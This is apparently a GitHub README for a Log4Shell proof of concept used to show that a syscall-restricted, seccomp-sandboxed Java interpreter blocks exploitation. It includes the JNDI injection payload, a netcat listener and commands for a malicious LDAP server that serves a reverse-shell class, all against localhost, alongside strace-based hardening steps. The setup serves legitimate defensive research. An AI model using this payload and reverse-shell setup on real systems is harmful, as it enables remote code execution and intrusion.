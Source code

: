 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username and password when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment, defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04. 

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling
the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `mvn package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a capability-restricted Java interpreter
The ELF file of the Java interpreter `./jdk1.8.0_20/bin/java` contains information about the system calls that the interpreter requires to run the vulnerable application. In particular, the interpreter does not need to execute the `execve` system call to work properly. The `execve` system call is used to establish the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, it is not possible to establish a reverse shell with the same easy approach as described above if the vulnerable application is run in a sandbox, where it is only allowed to execute te system calls that it requires to work properly.

To test this, perform the same steps as described above, but in step 2, start the vulnerable application with the capability-aware ELF loader:
`sudo ./elf_loader ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
After performing step 5, the vulnerable application should now terminate with the message `Bad system call`, and no reverse shell should be established.


## Creating the capability-restricted Java interpreter
The capability restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed from a `root` shell:
```
strace -n -f -o trace.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace.txt | tail -n +2 | grep -E -o '\[[[:blank:]]+[[:digit:]]+\]' | grep -E -o '[[:digit:]]+' | sort -n | uniq | awk 'NR>=0{printf "%s,", $1}' | sed 's/,$//' > syscalls.txt
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command.

Lastly, the extracted system calls were added to the ELF file of the Java interpreter with the provided `elf_patcher`. 

Note that the `elf_loader` reads the required system calls added by the `elf_patcher` and installs a seccomp-BPF filter that ensures that only these system calls are allowed for the vulnerable application. 

The approach taken by the `elf_loader` has some limitations, which requires it to be run with `sudo`. These limitations can be overcome by modifying the Linux kernel to allow `execve` to take the capabilities in ELF files into account.




## Miscellaneous
```
strace -f -o trace_uml.txt ./jdk1.8.0_20/bin/java_orig -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
cat trace_uml.txt | tail -n +2 | cut -d" " -f3 | grep -o -e "^[^(]*" | sort | uniq > syscall_names_uml.txt
< manually remove the invalid lines >
python3 set_up_access_rights.py ./jdk1.8.0_20/bin/java syscall_names_uml.txt
```


